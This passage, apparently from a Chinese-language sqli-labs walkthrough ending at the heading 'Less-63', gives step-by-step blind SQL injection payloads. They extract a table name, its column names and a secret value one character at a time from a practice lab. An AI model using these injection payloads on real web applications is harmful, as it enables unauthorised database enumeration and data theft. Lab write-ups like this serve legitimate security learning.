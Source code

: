 得数据库长度为 10

- 爆数据库的每一位字符:

```
?id=1') and ascii(mid(database(),1,1))=99 #
```

- 爆当前数据库所有表的个数:

```
?id=1') and (select count(table_name) from information_schema.tables where table_schema=database())=1 #
```

- 第一个表的长度:

```
?id=1') and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>5 #
```

- 第一个表的每一个字符:

```
?id=1') and ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=78 #
```

得到表名为: N18FOKJDNC

- 爆第一个字段名的长度:

```
?id=1') and length((select column_name from information_schema.columns where table_name='N18FOKJDNC' limit 0,1))=2 #
```

- 爆第一个字段名的每一个字符:

```
?id=1') and ascii(mid((select column_name from information_schema.columns where table_name='N18FOKJDNC' limit 0,1),1,1))=105 #
```

最后得第一个字段名为: id

然后依次爆得第二、三、四个字段名分别为: sessid,secret_BDFP, tryy

- 爆secret_BDFP字段值的长度:

```
?id=1') and (select length(secret_BDFP) from N18FOKJDNC)=24 #
```

- 爆每一个值:

```
?id=1') and ascii(mid((select secret_BDFP from N18FOKJDNC),1,1))=113 #
```

最后得值为: **qAAMVVGX0thxbmsazGMxOlFe**

## Less-63
